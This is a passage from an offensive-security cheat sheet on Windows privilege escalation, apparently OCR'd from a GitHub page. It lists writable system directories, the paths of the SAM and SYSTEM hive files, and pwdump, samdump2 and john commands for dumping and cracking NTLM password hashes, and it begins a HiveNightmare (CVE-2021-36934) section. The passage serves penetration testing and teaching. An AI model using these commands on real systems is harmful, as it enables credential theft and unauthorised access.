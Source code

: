 ```powershell
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\spool\printers
C:\Windows\System32\spool\servers
C:\Windows\tracing
C:\Windows\Temp
C:\Users\Public
C:\Windows\Tasks
C:\Windows\System32\tasks
C:\Windows\SysWOW64\tasks
C:\Windows\System32\tasks_migrated\microsoft\windows\pls\system
C:\Windows\SysWOW64\tasks\microsoft\windows\pls\system
C:\Windows\debug\wia
C:\Windows\registration\crmlog
C:\Windows\System32\com\dmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\System32\fxstmp
C:\Windows\SysWOW64\fxstmp
```

## EoP - Looting for passwords

### SAM and SYSTEM files

The Security Account Manager (SAM), often Security Accounts Manager, is a database file. The user passwords are stored in a hashed format in a registry hive either as a LM hash or as a NTLM hash. This file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.

```powershell
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

Generate a hash file for John using `pwdump` or `samdump2`.

```powershell
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

Either crack it with `john -format=NT /root/sam.txt`, [hashcat](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Hash%20Cracking.md#hashcat) or use Pass-The-Hash.

### HiveNightmare

> CVE-2021–36934 allows you to retrieve all registry hives (SAM,SECURITY,SYSTEM) in Windows 10 and 11 as a non-administrator user
